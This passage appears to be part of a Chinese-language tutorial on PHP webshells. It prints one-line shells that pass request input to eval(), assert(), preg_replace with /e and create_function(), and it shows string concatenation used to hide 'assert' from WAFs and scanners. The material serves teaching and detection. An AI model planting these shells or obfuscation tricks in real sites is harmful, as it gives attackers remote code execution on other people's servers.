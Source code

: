 **示例 1**：
```php
<?php eval($_REQUEST["cmd"]); ?>
```
- **解释**：`eval()` 函数将 `$_REQUEST["cmd"]` 的内容作为 PHP 代码执行，攻击者通过请求传递命令（如 `cmd=phpinfo()`），服务器执行该命令。

**示例 2**：
```php
<?php assert($_REQUEST['cmd']); ?>
```
- **解释**：`assert()` 函数将 `$_REQUEST["cmd"]` 的内容当作 PHP 代码执行，功能类似于 `eval()`。

### 4. WebShell 代码执行函数

在 PHP 中，有许多函数可以执行代码，这些函数通常被用于编写 WebShell。

#### 常见代码执行函数：

- **`eval()`**：执行字符串形式的 PHP 代码。
- **`assert()`**：与 `eval()` 类似，执行字符串形式的 PHP 代码。
- **`preg_replace()`**：带 `/e` 修饰符的情况下，可以将替换内容作为 PHP 代码执行。
- **`create_function()`**：创建匿名函数，并可以执行传递的代码。
- **`system()`、`exec()`、`shell_exec()`**：直接在服务器上执行系统命令。

#### 示例代码：
```php
// 使用 eval() 执行任意代码
<?php eval($_REQUEST['cmd']); ?>

// 使用 assert() 执行任意代码
<?php assert($_REQUEST['cmd']); ?>

// 使用 preg_replace() 和 /e 修饰符
<?php preg_replace("/abc/e", $_REQUEST['cmd'], "abc"); ?>

// 使用 create_function() 创建并执行匿名函数
<?php 
$func = create_function('', $_REQUEST['cmd']);
$func();
?>
```

### 5. WebShell 变形技术

为了绕过防火墙（WAF）和安全检测，WebShell 往往会使用各种技术手段进行变形和混淆。

#### 5.1 利用字符串连接和替换

**示例**：
```php
<?php
$str1 = "as";
$str2 = "sert";
$func = $str1 . $str2; // $func = "assert"
$func($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```
